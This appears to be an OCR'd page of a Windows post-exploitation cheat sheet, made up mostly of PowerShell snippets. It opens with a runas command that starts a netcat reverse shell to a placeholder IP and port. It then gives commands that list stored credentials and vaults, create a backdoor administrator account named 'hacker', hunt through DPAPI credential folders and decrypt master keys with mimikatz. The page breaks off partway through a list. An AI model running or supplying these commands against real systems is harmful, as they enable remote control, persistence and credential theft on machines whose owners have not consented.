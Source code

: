   ```powershell
  runas /env /profile /user:Administrator "nc.exe -e powershel <IP> <port>"
  ```
* List out all stored credentials

  ```powershell
  cmdkey /list
  ```
* Add user account

  ```powershell
  net user hacker hacker123 /add
  net localgroup Administrators hacker /add
  net localgroup "Remote Desktop Users" hacker /ADD
  ```
* Add new credentials

  ```powershell
  cmdkey /add:MyServer /user:MyUser /pass:MyPassword
  ```
* Delete credentials

  ```powershell
  cmdkey /delete:MyServer
  cmdkey /delete:Domain:interactive=WORKGROUP\\Administrator
  ```
* Enumerate vaults

  ```powershell
  vaultcmd /list
  ```
* List entries saved in vault

  ```powershell
   vaultcmd /listcreds:"Web Credentials" /all
  ```
* DPAPI - Extracting Passwords

  * Search

  ```powershell
  cmd /c "dir /S /AS C:\\Users\\security\\AppData\\Local\\Microsoft\\Vault & dir /S /AS C:\\Users\\security\\AppData\\Local\\Microsoft\\Credentials & dir /S /AS C:\\Users\\security\\AppData\\Local\\Microsoft\\Protect & dir /S /AS C:\\Users\\security\\AppData\\Roaming\\Microsoft\\Vault & dir /S /AS C:\\Users\\security\\AppData\\Roaming\\Microsoft\\Credentials & dir /S /AS C:\\Users\\security\\AppData\\Roaming\\Microsoft\\Protect"
  ```

  * Copy Credential Protection and

  ```powershell
  mimikatz # dpapi::masterkey /in:3296853f-c42b-4ee0-a317-be49c5447823 /sid:S-1-5-21-1412805706-2265949842-2593025800-1001 /password:titan1506
  dpapi::cred /in:7505A1CE4F953BF9CA27E7CD22747C7E
  ```
* Runas /savecred
  * Searches for shortcuts that use the runas command

    ```powershell
    Get-ChildItem "C:\\" *.lnk -Recurse -Force | ft fullname | Out-File shortcuts.txt
    ForEach($file in gc .\\shortcuts.txt) { Write-Output $file; gc $file | Select-String runas }
    ```
  * Executes a PowerShell command as Administrator using saved credentials
